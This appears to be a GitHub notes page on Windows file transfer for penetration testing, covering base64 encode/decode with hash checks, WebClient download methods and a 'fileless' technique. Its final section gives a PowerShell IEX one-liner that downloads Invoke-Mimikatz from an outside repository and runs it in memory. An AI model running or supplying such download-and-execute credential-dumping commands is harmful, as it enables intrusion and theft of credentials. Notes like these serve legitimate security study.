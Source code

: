 # Windows
[PowerShell Base64 Encode & Decode](https://github.com/h4ck3r-cat/file.transfers/edit/main/Windows.md#powershell-base64-encode--decode)
[PowerShell Web Downloads](https://github.com/h4ck3r-cat/file.transfers/edit/main/Windows.md#powershell-base64-encode--decode)
## PowerShell Base64 Encode & Decode
This is the simplest and most conveinient method and does **not** require a network connection

### Step 1: Check MD5 Hash
```bash
$ md5sum file.txt
f4d11dce99a848fe050ab3ef2c966b62  file.txt
```
### Step 2: Encode File to Base64
```bash
$ cat file.txt |base64 -w 0

YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K
```
### Step 3: Decode in Powershell
```powershell
PS> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K')) | Out-File -FilePath "C:\Path\To\Decoded\Output.txt" -Encoding UTF8
```
### Step 4: Check MD5 Hash in PowerShell
```powershell
PS> Get-FileHash Output.txt -Algorithm md5

F4D11DCE99A848FE050AB3EF2C966B62
```
If the MD5 hashs are the same, we succeeded in trasfering the file.
> [!IMPORTANT]
> If the MD5 hashs do not match then you might have a few reasons why:
> 1. Line Endings: Different operating systems use different conventions for line endings in text files. Windows typically uses CRLF (\r\n), while Unix-based systems use LF (\n). If the line endings are different, it can result in different MD5 checksums.
> 2. Encoding Differences: If the files are text files and have different character encodings (e.g., UTF-8 vs. UTF-16), this can result in different MD5 checksums.
> 3. Whitespace Differences: Extra whitespace (leading/trailing spaces, tabs, etc.) can also cause differences in MD5 checksums.

By addressing these factors, you should be able to get consistent MD5 checksums for files with identical content.

## PowerShell Web Downloads
PowerShell provides a versatile array of **file transfer** capabilities, with the *System.Net.WebClient* class serving as a reliable tool for downloading files across **HTTP**, **HTTPS**, or **FTP** protocols. Within this class, various methods cater to different download requirements. The following table outlines key **WebClient** methods designed for downloading data from a resource, each catering to specific scenarios:

| Method              | Description                                                                                             |
|---------------------|---------------------------------------------------------------------------------------------------------|
| OpenRead            | Retrieves data from a resource and returns it as a Stream.                                               |
| OpenReadAsync       | Asynchronously obtains data from a resource without blocking the calling thread.                         |
| DownloadData        | Downloads data from a resource and returns it as a Byte array.                                           |
| DownloadDataAsync   | Asynchronously downloads data from a resource, returning a Byte array without blocking the calling thread.|
| [DownloadFile]()        | Downloads data from a resource and saves it to a local file.                                             |
| DownloadFileAsync   | Asynchronously downloads data from a resource to a local file without blocking the calling thread.       |
| [DownloadString]()      | Retrieves a String from a resource and returns it as a String.                                            |
| DownloadStringAsync | Asynchronously downloads a String from a resource without blocking the calling thread.                    |

### PowerShell DownloadFile Method
You can download files using the following powershell code:
```powershell
PS> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString - Fileless Method
Fileless attacks operate by utilizing certain functions within an operating system to download and execute a payload directly. Instead of saving a PowerShell script to the computer's storage, we execute it straight from the computer's memory using the Invoke-Expression cmdlet or its shorthand alias, IEX as follows:
```powershell
PS> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
